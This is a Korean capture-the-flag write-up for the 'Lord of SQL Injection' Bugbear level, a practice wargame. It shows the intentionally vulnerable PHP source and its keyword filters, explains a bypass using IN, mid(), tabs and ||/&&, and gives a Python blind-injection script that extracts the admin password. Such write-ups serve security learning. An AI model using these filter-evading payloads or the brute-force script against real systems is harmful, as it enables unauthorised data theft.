 ## Lord of SQL Injection No. 13 - Bugbear
## 문제 출제 의도
like함수, substr함수, substring함수 없이 SQL문을 조작 가능 한지 확인한다.
## 소스 코드 분석
+ 소스 코드  
Bugbear의 소스코드는 다음과 같다.   
    ~~~ 
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
    $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - 금지 문자, 문자열
        * Get 방식으로 받은 no값에 prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        * Get 방식으로 받은 pw값에 (single quote)가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
        * Get 방식으로 받은 no값에 (single quote),substr,ascii,=(대입연산자),or,and중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - SQL문을 통해 받은 id 값이 0이 아니라면 "Hello Id"가 출력된다.
    - 풀이 성공 조건
        * 입력한 pw값과 실제 pw값이 일치해야 한다.
## 문제 해결
+ IN
    - 대입 연산자를 대체하여 그 자리에 동일하게 IN을 삽입하고 대입할 문자열을()소괄호로 묶어주어 사용하면 '=' 을 사용하지 않고 SQL문을 조작 가능하다.

+ 코드
    - 따라서 다음과 같은 코드를 작성하면 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
            data = '1||id%09IN%09("admin")%26%26mid(pw,1,{})%09IN%09("{}")%23'.format(str(i), key + chr(j))
            print(data)
            # no=1||id%09IN%09("admin")%26%26MID(pw,1,1)%09IN%09("7")%09--%09-
            # data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=lu2qch32sh6s8s57djgjra3hs3")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이를 실행하면 pw=735c2773가 출력된다
    - 이를 URL뒤에 GET방식으로 입력하면 문제가 해결된다.